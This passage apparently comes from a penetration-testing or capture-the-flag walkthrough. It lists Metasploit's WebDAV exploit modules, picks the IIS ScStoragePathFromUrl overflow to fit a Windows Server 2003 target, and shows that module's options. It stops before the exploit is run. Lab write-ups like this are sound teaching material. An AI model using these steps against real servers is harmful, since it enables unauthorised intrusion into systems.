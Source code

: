 ```bash
   auxiliary/scanner/http/webdav_internal_ip                                  normal     HTTP WebDAV Internal IP Scanner
   auxiliary/scanner/http/webdav_scanner                                      normal     HTTP WebDAV Scanner
   auxiliary/scanner/http/webdav_website_content                              normal     HTTP WebDAV Website Content Scanner
----------------------------SNIP-----------------------------
   exploit/windows/http/sap_host_control_cmd_exec            2012-08-14       average    SAP NetWeaver HostControl Command Injection
   exploit/windows/http/xampp_webdav_upload_php              2012-01-14       excellent  XAMPP WebDAV PHP Upload
   **exploit/windows/iis/iis_webdav_scstoragepathfromurl**       2017-03-26       manual      Microsoft IIS WebDav ScStoragePathFromUrl Overflow
   exploit/windows/iis/iis_webdav_upload_asp                 1994-01-01       excellent  Microsoft IIS WebDAV Write Access Code Execution
   exploit/windows/iis/ms03_007_ntdll_webdav                 2003-05-30       great      MS03-007 Microsoft IIS 5.0 WebDAV ntdll.dll Path Overflow
   exploit/windows/local/ms16_016_webdav                     2016-02-09       excellent  MS16-016 mrxdav.sys WebDav Local Privilege Escalation
   exploit/windows/misc/ibm_director_cim_dllinject           2009-03-10       excellent  IBM System Director Agent DLL Injection
   exploit/windows/misc/vmhgfs_webdav_dll_sideload           2016-08-05       normal     DLL Side Loading Vulnerability in VMware Host Guest Client Redirector
   exploit/windows/scada/ge_proficy_cimplicity_gefebt        2014-01-23       excellent  GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   exploit/windows/ssl/ms04_011_pct                          2004-04-13       average    MS04-011 Microsoft Private Communications Transport Overflow
   post/windows/escalate/droplnk                                              normal     Windows Escalate SMB Icon LNK Dropper

```

In this we see a few, but based on the date and description, the best matching appears to be exploit/windows/iis/iis_webdav_scstoragepathfromurl, especially when we view [the description](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl).  This shows it targets Windows Server 2003 R2, which is a possibility for the OS if we look back at the nmap scan, and a rather high up one.  So in this case it doesn't look like it will hurt at all to give this exploit a try.

```bash
msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf exploit(iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                           yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2

```